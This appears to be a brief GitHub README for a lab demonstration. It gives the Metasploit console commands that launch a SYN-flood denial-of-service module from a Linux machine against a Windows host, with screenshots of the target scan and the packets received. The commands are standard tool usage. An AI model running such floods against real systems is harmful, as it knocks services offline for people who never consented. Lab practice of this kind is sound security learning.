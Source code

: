 Scan target 

![1](https://github.com/Kr1shna02/hack-flow/assets/117007783/9916b084-0913-4f2a-aee5-7f92fe3df10a)

Next sequential commands do in linux machine to attack windows
+ ```msfconsole```
+ ``` use auxiliary/dos/tcp/synflood``` synflood ddos module.
+ ```show options``` -various options of synflood module.

![2](https://github.com/Kr1shna02/hack-flow/assets/117007783/e30ec83f-33af-40e5-bbb0-5bc7d18a4100)

+ After configutation Enter ```exploit```.

![3](https://github.com/Kr1shna02/hack-flow/assets/117007783/8728db84-4186-42db-8e08-b2d05b32956c)

Packets recevied in windows

![4](https://github.com/Kr1shna02/hack-flow/assets/117007783/e724ce45-0f94-484a-b9d9-99f1ad336d51)
